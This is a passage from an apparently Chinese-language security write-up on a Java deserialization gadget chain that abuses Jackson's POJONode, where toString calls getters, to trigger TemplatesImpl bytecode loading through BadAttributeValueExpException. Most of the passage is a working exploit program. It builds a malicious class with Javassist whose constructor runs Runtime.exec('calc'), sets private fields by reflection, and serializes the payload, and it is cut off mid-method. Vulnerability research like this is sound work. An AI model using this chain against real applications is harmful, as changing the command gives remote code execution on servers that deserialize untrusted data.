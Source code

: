 跟进方法看下，发现依次调用了以下方法：

```java
toString -> InternalNodeMapper#nodeToString -> ObjectWriter#writeValueAsString
```

这里穿插一个Jackson的知识点：在Jackson中将对象序列化成json字符串方法为`ObjectMapper#writeValueAsString`，我们测试一下该方法，发现该方法不仅能完成对象转化还会默认调用get方法：

![image-20231109154440296](https://shs3.b.qianxin.com/butian_public/f32446381103a63ad7ed757b89a70f7fc87abce0796f6.jpg)

所以我们就找到了getter方法的入口（用来接templateimpl的链子），这里我们还可以得出只要是继承了BaseJsonNode类，并且没有重写`toString()`方法（即需要执行父类的`toString()`方法），就能够替代POJONode这个类。

3、EXP

```java
import com.fasterxml.jackson.databind.node.POJONode;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import javassist.ClassPool;
import javassist.CtClass;
import javassist.CtConstructor;
import javax.management.BadAttributeValueExpException;
import javax.xml.transform.Templates;
import java.io.ByteArrayOutputStream;
import java.io.IOException;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;

public class test {
    public static void main(String[] args) throws Exception {
        // 1、使用了Javassist构建templates的_bytecodes属性
        ClassPool pool = ClassPool.getDefault();
        CtClass ctClass = pool.makeClass("evil");
        CtClass superClass = pool.get(AbstractTranslet.class.getName());
        ctClass.setSuperclass(superClass);
        CtConstructor constructor = new CtConstructor(new CtClass[]{},ctClass);
        constructor.setBody("Runtime.getRuntime().exec(\"calc\");");
        ctClass.addConstructor(constructor);
        byte[] bytes = ctClass.toBytecode();
        // 2、创建TemplatesImpl类利用反射获取私有属性并设置
        Templates templatesImpl = new TemplatesImpl();
        Field bytecodes = templatesImpl.getClass().getDeclaredField("_bytecodes");
        bytecodes.setAccessible(true);
        bytecodes.set(templatesImpl,new byte[][]{bytes});
        Field name = templatesImpl.getClass().getDeclaredField("_name");
        name.setAccessible(true);
        name.set(templatesImpl,"111");
        Field tfactory = templatesImpl.getClass().getDeclaredField("_tfactory");
        tfactory.setAccessible(true);
        tfactory.set(templatesImpl,null);
        POJONode jsonNodes = new POJONode(templatesImpl);
        // 3、BadAttributeValueExpException提供readObject入口
        BadAttributeValueExpException exp = new BadAttributeValueExpException(1);
        Field val = exp.getClass().getDeclaredField("val");
        val.setAccessible(true);
        val.set(exp,jsonNodes);
        // 4、序列化
        serial(exp);
    }
    // serial_method
    public static byte[] serial(Object o) throws IOException{
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(o);
```